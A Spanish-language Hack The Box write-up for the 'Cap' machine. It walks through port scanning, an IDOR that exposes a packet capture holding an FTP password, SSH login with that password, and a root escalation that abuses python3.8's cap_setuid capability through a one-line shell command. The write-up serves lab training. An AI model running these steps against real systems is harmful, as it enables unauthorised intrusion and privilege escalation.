

Hack The Box: Cap Writeup
Welcome to my detailed writeup of the easy difficulty machine “Cap” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
1$ rustscan -a 10.129.237.34 --ulimit 5000 -g
210.129.237.34 -> [22,21,80] 1$ nmap -p22,21,80 -sCV 10.129.237.34 -oN allPorts
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 18:06 CEST
3Stats: 0:01:48 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
4Service scan Timing: About 66.67% done; ETC: 18:09 (0:00:54 remaining)
5Nmap scan report for 10.129.237.34
6Host is up (0.035s latency).
7
8PORT STATE SERVICE VERSION
921/tcp open ftp vsftpd 3.0.3
1022/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
11| ssh-hostkey:
12| 3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
13| 256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
14|_ 256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
1580/tcp open http gunicorn
16|_http-server-header: gunicorn
17|_http-title: Security Dashboard
18| fingerprint-strings:
19| FourOhFourRequest:
20| HTTP/1.0 404 NOT FOUND
21| Server: gunicorn
22| Date: Tue, 20 Aug 2024 14:06:43 GMT
23| Connection: close
24| Content-Type: text/html; charset=utf-8
25| Content-Length: 232
26| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
27| <title>404 Not Found</title>
28| <h1>Not Found</h1>
29| <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
30| GetRequest:
31| HTTP/1.0 200 OK
32| Server: gunicorn
33| Date: Tue, 20 Aug 2024 14:06:37 GMT
34| Connection: close
35| Content-Type: text/html; charset=utf-8
36| Content-Length: 19386
37| <!DOCTYPE html>
38| <html class="no-js" lang="en">
39| <head>
40| <meta charset="utf-8">
41| <meta http-equiv="x-ua-compatible" content="ie=edge">
42| <title>Security Dashboard</title>
43| <meta name="viewport" content="width=device-width, initial-scale=1">
44| <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
45| <link rel="stylesheet" href="/static/css/bootstrap.min.css">
46| <link rel="stylesheet" href="/static/css/font-awesome.min.css">
47| <link rel="stylesheet" href="/static/css/themify-icons.css">
48| <link rel="stylesheet" href="/static/css/metisMenu.css">
49| <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
50| <link rel="stylesheet" href="/static/css/slicknav.min.css">
51| <!-- amchar
52| HTTPOptions:
53| HTTP/1.0 200 OK
54| Server: gunicorn
55| Date: Tue, 20 Aug 2024 14:06:38 GMT
56| Connection: close
57| Content-Type: text/html; charset=utf-8
58| Allow: GET, HEAD, OPTIONS
59| Content-Length: 0
60| RTSPRequest:
61| HTTP/1.1 400 Bad Request
62| Connection: close
63| Content-Type: text/html
64| Content-Length: 196
65| <html>
66| <head>
67| <title>Bad Request</title>
68| </head>
69| <body>
70| <h1><p>Bad Request</p></h1>
71| Invalid HTTP Version 'Invalid HTTP Version: 'RTSP/1.0''
72| </body>
73|_ </html>
741 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
75SF-Port80-TCP:V=7.94SVN%I=7%D=8/20%Time=66C4BF0C%P=x86_64-pc-linux-gnu%r(G
76SF:etRequest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
77SF:x20Tue,\x2020\x20Aug\x202024\x2014:06:37\x20GMT\r\nConnection:\x20close
78SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
79SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
80SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
81SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
82SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
83SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
84SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
85SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
86SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
87SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
88SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
89SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
90SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
91SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
92SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
93SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
94SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,
95SF:\x2020\x20Aug\x202024\x2014:06:38\x20GMT\r\nConnection:\x20close\r\nCon
96SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x2
97SF:0OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
98SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
99SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
100SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
101SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
102SF:alid\x20HTTP\x20Version\x20'Invalid\x20HTTP\x20Version:\x20'R
103SF:TSP/1\.0''\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
104SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
105SF:20Tue,\x2020\x20Aug\x202024\x2014:06:43\x20GMT\r\nConnection:\x20close\
106SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
107SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
108SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
109SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
110SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
111SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
112Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
113
114Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
115Nmap done: 1 IP address (1 host up) scanned in 135.33 secondsUDP Enumeration
1$ sudo nmap --top-ports 1500 10.129.237.34 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 18:15 CEST
3Nmap scan report for 10.129.237.34
4Host is up (0.036s latency).
5Not shown: 1494 open|filtered udp ports (no-response)
6PORT STATE SERVICE
71040/udp closed netarx
817638/udp closed unknown
924875/udp closed unknown
1028098/udp closed unknown
1134422/udp closed unknown
1264481/udp closed unknown
13
14Nmap done: 1 IP address (1 host up) scanned in 0.88 secondsnmap lanza unos scripts básicos de reconocimiento entre los que se incluye el script ftp-anon y no nos ha reportado nada, por lo cual no podemos iniciar sesión al FTP como el usuario anonymous
HTTP Enumeration
whatweb no nos reporta ningún CMS pero nos reporta que el servidor web utilizado por detrás es gunicorn, un servidor web creado en python.
1$ whatweb http://10.129.237.34
2http://10.129.237.34 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.129.237.34], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]En el sitio web podemos ver una funcionalidad que escanea los paquetes y los reporta posteriormente, además nos podemos descargar el archivo pcap
Podemos ver que los paquetes son reales cuando mientras hace el escaneo que dura 5 segundos, intentamos conectarnos al FTP.

También hay otra funcionalidad que ejecuta el comando ifconfig y nos reporta el output.

Y lo mismo para el comando netstat

IDOR
Para ver el escaneo vemos que se utiliza un ID, al probar el ID 0 -> http://10.129.237.34/data/0
Vemos lo siguiente….
Para descargar los archivos pcap se utiliza esta ruta, donde 3 es la referencia al archivo.

Podemos probar a descargar el archivo del escaneo con ID 0.
Y al analizarlo vemos un inicio de sesión por FTP para el usuario nathan
Y la credencial Buck3tH4TF0RM3!
Podemos ver que ahora por FTP podemos acceder con estas credenciales y ver la flag del usuario.
1$ ftp nathan@10.129.237.34
2Connected to 10.129.237.34.
3220 (vsFTPd 3.0.3)
4331 Please specify the password.
5Password:
6230 Login successful.
7Remote system type is UNIX.
8Using binary mode to transfer files.
9ftp> dir
10229 Entering Extended Passive Mode (|||57273|)
11150 Here comes the directory listing.
12-r-------- 1 1001 1001 33 Aug 20 14:04 user.txtPero también son válidas para acceder por SSH
1$ sshpass -p 'Buck3tH4TF0RM3!' ssh nathan@10.129.237.34
2Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
3
4 * Documentation: https://help.ubuntu.com
5 * Management: https://landscape.canonical.com
6 * Support: https://ubuntu.com/advantage
7
8 System information as of Tue Aug 20 14:38:54 UTC 2024
9
10 System load: 0.0
11 Usage of /: 36.7% of 8.73GB
12 Memory usage: 21%
13 Swap usage: 0%
14 Processes: 228
15 Users logged in: 0
16 IPv4 address for eth0: 10.129.237.34
17 IPv6 address for eth0: dead:beef::250:56ff:fe94:7af0
18
19 => There are 4 zombie processes.
20
21 * Super-optimized for small spaces - read how we shrank the memory
22 footprint of MicroK8s to make it the smallest full K8s around.
23
24 https://ubuntu.com/blog/microk8s-memory-optimisation
25
2663 updates can be applied immediately.
2742 of these updates are standard security updates.
28To see these additional updates run: apt list --upgradable
29
30
31The list of available updates is more than a week old.
32To check for new updates run: sudo apt update
33
34Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
35nathan@cap:~$ ls
36user.txt
37nathan@cap:~$ cat user.txt
38d5737f158e21c61...Privilege Escalation
Tras enumerar básicamente la máquina, al llamarse cap podemos ver las capabilities que tienen los binarios y…
1nathan@cap:~$ getcap -r / 2>/dev/null
2/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
3/usr/bin/ping = cap_net_raw+ep
4/usr/bin/traceroute6.iputils = cap_net_raw+ep
5/usr/bin/mtr-packet = cap_net_raw+ep
6/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+epAbusing cap_setuid
Vemos que python3.8 tiene la capability cap_setuid , así que en este punto ya esta máquina es un regalo.
Esta capability permite a un proceso cambiar su ID de usuario efectivo (UID) arbitrariamente. En un sistema típico de Unix, esta capacidad está relacionada con la administración de permisos y la identificación de usuarios.
Para escalar privilegios podemos leer este apartado en GTFOBins
Y simplemente podemos escalar privilegios utilizando el binario de python para cargar librería os y cambiando nuestro UID a 0 (root) para acto seguido invocar una shell.
1nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
2root@cap:~# id
3uid=0(root) gid=1001(nathan) groups=1001(nathan)Podemos leer la flag de root
1root@cap:/root# cat root.txt
20d33dd27c2c26....¡Y ya estaría!
Happy Hacking! 🚀
#HackTheBox #Cap #Writeup #Cybersecurity #Penetration Testing #CTF #Network Security #Reverse Shell #Privilege Escalation #Linux #Insecure Object Direct Reference #Information Leakage #Abusing Cap_setuid